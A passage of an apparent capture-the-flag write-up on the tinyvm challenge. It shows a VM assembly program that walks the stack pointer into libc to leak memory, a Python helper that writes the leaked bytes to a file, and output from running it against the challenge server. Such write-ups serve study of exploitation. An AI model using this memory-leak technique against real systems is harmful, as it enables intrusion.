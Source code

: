 Stack grows towards lower addresses, so by doing `pop reg` we can leak bytes from memory (four bytes at per one `pop`). We can also print them because there is a VM opcode which will print a register value using `printf` ([tvm.h](https://github.com/jakogut/tinyvm/blob/master/include/tvm/tvm.h)). Unfortunately it prints value as a signed integer, so we need to handle that in python. VM program will have the following form:


```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

mov ecx, 0x250000
mov esi, 0

loop:
	pop eax
	prn eax

	inc esi
	cmp esi, ecx

	jl loop
```

and python part responsible for receiving four byte integers and saving them into a binary file look like this (it is probably overcomplicated): 


```python
def tohex(val, nbits=32):
  return hex((val + (1 << nbits)) % (1 << nbits))[2:].rjust(8, '0')

def leak_libc_binary():
	ints = io.recvall(timeout=60).decode().splitlines()
	ints = list(map(int, ints))
	ints = list(map(tohex, ints))
	ints = list(map(unhex, ints))
	raw_bytes = list(map(lambda h: h[::-1], ints))
	raw_bytes = b''.join(raw_bytes)

	with open("./libc.so", "wb") as f:
		f.write(raw_bytes)

leak_libc_binary()
```

Running code on a remote target produces the following output:

```shell
[*] '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 198.11.180.84 on port 6666: Done
[+] Receiving all data: Done (4.84MB)
[*] Closed connection to 198.11.180.84 port 6666
Traceback (most recent call last):
  File "/media/sf_D_DRIVE/rwctf/tinyvm/./solve.py", line 65, in <module>
    leak_libc_binary()
  File "/media/sf_D_DRIVE/rwctf/tinyvm/./solve.py", line 56, in leak_libc_binary
    ints = list(map(int, ints))
ValueError: invalid literal for int() with base 10: '0Segmentation fault'
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ file libc.so
libc.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, stripped
```